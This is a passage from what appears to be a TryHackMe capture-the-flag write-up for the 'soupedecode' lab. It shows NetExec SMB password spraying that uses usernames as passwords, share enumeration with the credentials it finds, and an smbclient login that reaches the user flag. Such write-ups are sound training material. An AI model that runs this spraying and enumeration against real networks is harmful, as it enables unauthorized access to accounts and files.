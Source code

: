```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.94.156 -u formatted-users-list.txt -p formatted-users-list.txt --no-brute --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, I tried to enumerate shares with those valid credentials and found that user 'ybob317' had read access to 'Users' share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.57.152 -u 'ybob317' -p 'REDACTED' --shares
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Connected to 'Users' share via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.57.152/Users' -U 'ybob317'
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

All the directories were inaccessible except 'ybob317' and there I got the Desktop directory and then in Desktop I got user flag.
